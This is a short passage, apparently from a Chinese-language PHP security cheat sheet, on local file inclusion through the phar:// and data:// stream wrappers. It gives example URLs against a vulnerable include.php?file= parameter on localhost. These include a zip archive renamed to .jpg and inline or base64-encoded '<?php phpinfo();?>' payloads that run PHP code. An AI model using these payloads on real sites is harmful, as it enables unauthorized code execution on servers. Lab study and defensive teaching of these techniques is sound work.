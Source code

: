 ```
http://127.0.0.1/include.php?file=phar://E:/phpStudy/PHPTutorial/WWW/phpinfo.zip/phpinfo.txt
```

```php
phar://
    ?file=phar://xxx.php
    phar://123.zip/ 相当于一个文件夹
    先创建一个123.php 再压缩文件为123.zip 最后改后缀名为123.jpg
    http://127.0.0.1/php/test.php?file=phar://123.jpg/123.php
    http://127.0.0.1/php/test.php?file=phar://123.zip/123.php
```

## data://

数据流封装器，以传递相应格式的数据。通常可以**用来执行PHP代码**。

### 示例用法

```php
1、data://text/plain,
http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>
 
2、data://text/plain;base64,
http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```


